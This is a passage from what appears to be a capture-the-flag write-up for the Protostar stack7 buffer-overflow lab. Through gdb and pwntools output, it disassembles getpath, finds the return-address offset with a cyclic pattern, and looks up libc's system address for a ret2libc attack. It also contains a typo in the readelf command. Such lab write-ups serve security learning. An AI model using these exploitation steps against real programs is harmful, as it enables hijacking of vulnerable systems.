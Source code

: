```bash
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax   
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]        
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax   
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
```
The return address of getpath is: 0x08048544

<br/>

Let's find the offset

<br/>

Generating a cyclic pattern
```python
python3
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

Send the pattern

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
got path aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
```

Find the offset

```python
>>> cyclic_find(0x61616175)
80
```

Now let's find the addresses needed to ret2libc:

```bash
$ readedelf -s /lib/libc-2.11.2.so | grep system
  1399: 00038fb0   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

system: 0x00038fb0

<br/>
